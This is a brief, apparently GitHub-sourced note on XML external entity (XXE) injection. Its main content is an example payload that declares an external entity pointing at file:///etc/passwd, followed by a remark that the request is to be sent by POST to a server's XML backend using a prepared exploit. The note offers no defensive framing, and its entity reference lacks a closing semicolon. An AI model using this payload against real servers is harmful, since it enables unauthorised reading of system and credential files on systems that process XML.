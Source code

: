 eternal entity
Example of payload
```
<?xml version =''''1.0'''' encoding=''''ISO-8859-1''''?>
<!DOCTYPE foo [<!ELEMENT foo ANY> <!ENTITY xxe SYSTEM ''''file:///etc/passwd''''>] >
<foo>
	&xxe
</foo>
```
Request could be send on your server with prepared exploit

it should be captured with POST request, when sends XML backend 
